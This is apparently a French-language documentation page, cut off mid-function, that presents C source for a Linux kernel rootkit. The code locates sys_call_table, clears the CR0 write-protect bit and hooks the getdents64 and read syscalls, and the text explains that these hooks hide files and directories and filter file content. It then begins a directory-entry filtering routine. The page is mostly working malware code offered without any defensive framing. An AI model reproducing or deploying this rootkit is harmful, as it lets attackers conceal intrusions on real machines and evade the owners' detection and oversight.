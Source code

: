 ```c
// Localisation et modification de sys_call_table dans dissimulation.c
static unsigned long *localiser_table_appels(void)
{
    unsigned long *table_trouvee;
    table_trouvee = (unsigned long *)kallsyms_lookup_name("sys_call_table");
    return table_trouvee;
}

// Desactivation protection memoire pour modification
static void modifier_protection_memoire(int desactiver)
{
    unsigned long registre_controle;
    asm volatile("mov %%cr0, %0" : "=r" (registre_controle));
    
    if (desactiver) {
        registre_controle &= ~0x00010000;  // Clear bit WP (Write Protect)
    } else {
        registre_controle |= 0x00010000;   // Set bit WP
    }
    asm volatile("mov %0, %%cr0" : : "r" (registre_controle));
}

// Installation des hooks avec sauvegarde des originaux
int activer_dissimulation(void)
{
    camouflage.table_appels_systeme = localiser_table_appels();
    
    // Sauvegarde pointeurs originaux
    camouflage.listage_originale = (syscall_ptr_t)camouflage.table_appels_systeme[__NR_getdents64];
    camouflage.lecture_originale = (syscall_ptr_t)camouflage.table_appels_systeme[__NR_read];
    
    // Modification atomique de la table
    modifier_protection_memoire(1);
    camouflage.table_appels_systeme[__NR_getdents64] = (unsigned long)intercepter_lecture_repertoire;
    camouflage.table_appels_systeme[__NR_read] = (unsigned long)intercepter_lecture_fichier;
    modifier_protection_memoire(0);
}
```

**Technique de hook** : Modification directe de la table des appels systeme apres desactivation temporaire du bit Write Protect du registre CR0
**Syscalls interceptes** : `getdents64` pour masquer fichiers/repertoires, `read` pour filtrer contenu
**Reversibilite** : Sauvegarde des pointeurs originaux pour restauration possible

### Algorithme de filtrage des entrees de repertoire

L'interception de `getdents64` implemente un filtrage sophistique des entrees de repertoire :

```c
// Filtrage dans intercepter_lecture_repertoire
static asmlinkage long intercepter_lecture_repertoire(const struct pt_regs *registres)
{
    struct linux_dirent64 __user *listing_utilisateur;
    struct linux_dirent64 *tampon_noyau, *entree_courante, *entree_precedente;
    
    // Appel syscall original
    taille_retour = camouflage.listage_originale(registres);
    
    // Copie userspace vers kernel space
    tampon_noyau = kmalloc(taille_retour, GFP_KERNEL);
    copy_from_user(tampon_noyau, listing_utilisateur, taille_retour);
    
```